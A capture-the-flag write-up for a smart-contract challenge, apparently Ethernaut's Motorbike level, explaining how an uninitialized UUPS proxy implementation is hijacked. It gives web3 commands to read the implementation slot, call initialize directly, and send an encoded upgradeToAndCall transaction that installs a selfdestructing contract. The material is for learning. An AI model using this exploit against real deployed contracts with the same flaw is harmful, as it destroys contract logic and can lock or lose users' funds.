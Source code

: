 # Logic 
UUPS Upgradeable Proxy has the logic for changing the implementation inside the implementation. In this challenge you have to pay attention at what function can be executed and in what context are executed

BTW: this challenge represents an early vulnerability of the OpenZeppelin contract

# Solution 

To change the implementation we need to have the upgradable role, that meaning to have our address has to be in the `upgrade` slot.

We can see that the `initialize` function sets the `upgrader` to `msg.sender`. This function was called for the first time on the proxy constructor, and the changes are made in the context of the proxy. That meaning, the `initializer` modifier will make changes in the state of the proxy, not on the implementation state.  So we can call the `initialize` function one more time, in the context of the implementation.

Let's take the implementation address:

```
await web3.eth.getStorageAt(contract.address,"0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
```

And now call the `initialize` method
```
await sendTransaction({from: player,to: "<address_of_implementation>", data: "0x8129fc1c"})
```

Deploy a malicious implementation contract, that can call `selfdestruct`. You can find an example at `MotorbikeImplementation.sol`


After these steps, we have control of the implementation contract, so let's upgrade it stealthily:
```
await sendTransaction({from: player, to: "<address_of_original_implementation>", data: "4f1ef286000000000000000000000000d82f99916aca469c1b9e028a45896b190d443412000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000049e5faafc00000000000000000000000000000000000000000000000000000000"})
```

Some explanation of the above method:
 * `to` has to be the implementation because in the proxy contract, the `upgrader` field is still setted correctly with the address from the deploy
 * `data` represents the `upgradeToAndCall` with the new params **abi encoded**:
    * `new contract implementation address`
    * `data` -> the function that calls `selfdestruct`, in our case `attack`